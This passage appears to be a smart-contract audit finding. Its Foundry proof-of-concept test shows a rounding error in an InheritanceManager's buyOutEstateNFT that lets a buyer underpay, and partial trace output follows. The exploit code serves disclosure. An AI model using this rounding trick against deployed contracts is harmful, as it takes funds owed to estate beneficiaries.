 
### Impact/Proof of Concept
In this POC, the buyer is supposed to pay 6.66666 but because of rounding error, it only needs to pay a cheaper price.
```
function test_buyOutEstateNFTRoundingError() public {
        // Create 2 more beneficiary and user3 as NFT buyer
        address user2 = makeAddr("user2");
        address user3 = makeAddr("user3");

        // Give the buyer funds to purchase estate
        usdc.mint(user3, 10);

        // Add the beneficiaries
        vm.startPrank(owner);
        im.addBeneficiery(user1);
        im.addBeneficiery(user2);
        im.addBeneficiery(user3);

        // Create Estate NFT
        uint256 NFTvalue = 10;
        im.createEstateNFT("condominium", NFTvalue, address(usdc));
        vm.stopPrank();

        // Fast forward 90 days
        vm.warp(90 days + 1);
        
        // Buyer purchase NFT
        vm.startPrank(user3);
        usdc.approve(address(im), 6); // Due to rounding error, buyer only need to pay 6 instead of 6.6666666...
        im.inherit(); // This set `isInherited` as True to allow buying EstateNFT
        im.buyOutEstateNFT(1);
        vm.stopPrank();
    }
```
Results
```diff
[PASS] test_buyOutEstateNFTRoundingError() (gas: 443603)
Traces:
  [443603] InheritanceManagerTest::test_buyOutEstateNFTRoundingError()
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802]
    ├─ [0] VM::label(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], "user2")
    │   └─ ← [Return] 
    ├─ [0] VM::addr(<pk>) [staticcall]
    │   └─ ← [Return] user3: [0xc0A55e2205B289a967823662B841Bd67Aa362Aec]
    ├─ [0] VM::label(user3: [0xc0A55e2205B289a967823662B841Bd67Aa362Aec], "user3")
    │   └─ ← [Return] 
    ├─ [46784] ERC20Mock::mint(user3: [0xc0A55e2205B289a967823662B841Bd67Aa362Aec], 10)
    │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: user3: [0xc0A55e2205B289a967823662B841Bd67Aa362Aec], value: 10)
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [69020] InheritanceManager::addBeneficiery(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Stop] 
    ├─ [23120] InheritanceManager::addBeneficiery(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802])
    │   └─ ← [Stop] 
    ├─ [23120] InheritanceManager::addBeneficiery(user3: [0xc0A55e2205B289a967823662B841Bd67Aa362Aec])
    │   └─ ← [Stop] 
```